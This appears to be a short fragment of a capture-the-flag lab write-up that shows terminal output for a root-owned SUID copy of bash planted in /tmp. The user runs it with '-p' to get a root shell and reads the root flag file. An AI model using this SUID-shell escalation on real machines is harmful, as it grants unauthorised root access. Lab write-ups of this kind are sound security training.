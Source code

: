```bash

prod@editorial:/tmp/.raccoon$ ls -al /tmp

total 1424
drwxrwxrwt 15 root root    4096 Jun 19 06:25 .
drwxr-xr-x 18 root root    4096 Jun  5 14:54 ..
-rwsr-xr-x  1 root root 1396520 Jun 19 06:26 bash
drwxrwxrwt  2 root root    4096 Jun 16 18:26 .font-unix
drwxrwxrwt  2 root root    4096 Jun 16 18:26 .ICE-unix
-rw-r--r--  1 root root       0 Jun 19 06:20 pwned
drwxrwxr-x  2 prod prod    4096 Jun 19 06:08 .raccoon
drwx------  3 root root    4096 Jun 19 05:20 systemd-private-c262a7837fc54dc8b812137b93d07b30-fwupd.service-m4SBz6
drwx------  3 root root    4096 Jun 16 18:26 systemd-private-c262a7837fc54dc8b812137b93d07b30-ModemManager.service-BOPG1T
drwx------  3 root root    4096 Jun 16 18:26 systemd-private-c262a7837fc54dc8b812137b93d07b30-systemd-logind.service-A64Qby
drwx------  3 root root    4096 Jun 16 18:26 systemd-private-c262a7837fc54dc8b812137b93d07b30-systemd-resolved.service-mjPUaI
drwx------  3 root root    4096 Jun 16 18:26 systemd-private-c262a7837fc54dc8b812137b93d07b30-systemd-timesyncd.service-ozFO0k
drwx------  3 root root    4096 Jun 17 05:12 systemd-private-c262a7837fc54dc8b812137b93d07b30-upower.service-6X4zaC
drwxrwxrwt  2 root root    4096 Jun 16 18:26 .Test-unix
drwx------  2 root root    4096 Jun 16 18:27 vmware-root_797-4257069498
drwxrwxrwt  2 root root    4096 Jun 16 18:26 .X11-unix
drwxrwxrwt  2 root root    4096 Jun 16 18:26 .XIM-unix
```

```bash
prod@editorial:/tmp/.raccoon$ /tmp/bash -p
bash-5.1# cat /root/root.txt
e76afa22e38b--------------------
```
